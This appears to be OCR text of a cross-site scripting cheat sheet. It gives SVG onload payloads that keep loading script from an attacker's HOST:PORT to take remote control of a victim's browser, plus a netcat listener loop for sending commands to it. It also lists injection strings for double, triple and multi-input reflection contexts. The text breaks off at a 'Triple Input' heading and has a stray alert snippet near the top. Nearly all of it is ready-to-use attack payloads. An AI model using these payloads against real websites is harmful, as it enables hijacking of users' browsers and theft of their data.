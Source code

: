 onafterscriptexecute

onbeforescriptexecute

if (brute)
alert("Congratz, buddy!");
else
alert("Almost there, try again.");

Browser Control

<svg onload=setInterval(function(){with(document)body.
appendChild(createElement('script')).src='//HOST:PORT'},0)>
$ while :; do printf "j$ "; read c; echo $c | nc -lp PORT >/dev/null; done

Using XSS to Control a Browser

<svg onload=setInterval(function(){d=document;
z=d.createElement("script");z.src="//HOST:PORT";
d.body.appendChild(z)},0)>
setInterval(code, 0)
function(){code}
d=document;
z=d.createElement("script");
z.src="//HOST:PORT";
d.body.appendChild(z)
<svg/onload=setInterval(function(){with(document)body.
appendChild(createElement("script")).src="//HOST:PORT"},0)>
$ while :; do printf "j$ "; read c; echo $c | nc -lp PORT >/dev/null; done

Multi Reflection

Double Reflection

Single Input

'onload=alert(1)><svg/1='
Single Input (script-based)
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*

Triple Reflection

Single Input

*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='

Single Input (script-based)

*/</script>'>alert(1)/*<script/1='

Multi Input

Double Input

p=<svg/1='&q='onload=alert(1)>

Triple Input
